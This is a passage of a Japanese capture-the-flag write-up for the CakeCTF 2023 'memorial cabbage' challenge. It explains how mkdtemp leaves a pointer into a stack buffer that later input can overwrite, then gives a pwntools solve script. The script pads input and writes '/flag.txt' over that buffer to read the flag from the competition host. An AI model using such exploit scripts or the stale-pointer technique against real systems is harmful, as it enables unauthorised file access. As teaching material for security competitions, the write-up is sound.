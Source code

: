 `mkdtemp`
関数は引数に与えられた文字列ポインタのXXXXの部分をランダムに書き換えます。すなわち、上の処理ではスタック上に存在する`template`
変数を書き換えてスタックへのポインタを`tempdir`に保存しています。
したがって、setup関数から抜けた瞬間から`tempdir`が指している内容は変わる可能性があり、実際に`buf`変数に入力を与えることで書き換えが可能です。

## スクリプト

```py
from pwn import *

context.arch = "amd64"
context.bits = 64
context.terminal = "tmux splitw -h".split()
context.log_level = "DEBUG"

s2sh = lambda pl: b"".join([p8(int(pl[i : i + 2], 16)) for i in range(0, len(pl), 2)])
s2u64 = lambda s: u64(s.ljust(8, b"\x00"))
i2b = lambda x: f"{x}".encode()
ptr_guard = lambda pos, ptr: (pos >> 12) ^ ptr


def create_io() -> tubes.tube.tube:
    if not local:
        io: tubes.tube.tube = remote(remote_addr, int(remote_port))
    elif debug:
        if radare:
            io: tubes.tube.tube = process(elf_name, env={"LD_PRELOAD": libc_name})
            util.proc.wait_for_debugger(util.proc.pidof(io)[0])
        else:
            io: tubes.tube.tube = gdb.debug(
                elf_name, script, env={"LD_PRELOAD": libc_name}
            )
    else:
        io: tubes.tube.tube = process(elf_name, env={"LD_PRELOAD": libc_name})
    return io


def solve():
    global t
    sa = lambda x, y: t.sendafter(x, y)
    sla = lambda x, y: t.sendlineafter(x, y)

    sla(b">", i2b(1))
    sla(b":", b"A" * (0x1010 - 0x20) + b"/flag.txt\x00")

    t.interactive()


local = 0
debug = 0
radare = 0

elf_name = "./cabbage"
libc_name = ""
remote_addr, remote_port = "memorialcabbage.2023.cakectf.com 9001".split()
elf: ELF = ELF(elf_name)
# libc: ELF = ELF(libc_name)
script = """
"""
t = create_io()
solve()
```
